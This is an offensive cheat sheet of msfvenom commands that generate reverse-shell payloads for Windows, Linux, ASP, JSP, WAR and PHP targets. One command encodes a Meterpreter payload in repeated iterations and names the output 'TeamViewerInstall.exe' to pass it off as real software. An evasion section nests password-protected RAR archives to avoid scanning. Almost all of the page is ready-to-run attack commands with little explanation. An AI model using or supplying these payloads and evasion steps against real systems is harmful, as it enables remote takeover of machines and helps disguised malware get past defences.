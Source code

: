 ## Payloads
```bash
# Staged Payload for Windows
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
$ msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Stageless Payload for Windows
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

# Staged Payload for Linux
$ msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
$ msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Stageless Payload for Linux
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# asp	
$ msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

# jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp

# war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# php
$ msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

## Encoder
### Generating Payload With Encoding
```bash
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

### Multiple Iterations
```bash
$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

## Evasion Techniques
```bash
$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
$ rar a ~/test.rar -p ~/test.js

$ mv test.rar test
$ rar a test2.rar -p test
$ mv test2.rar test2
```
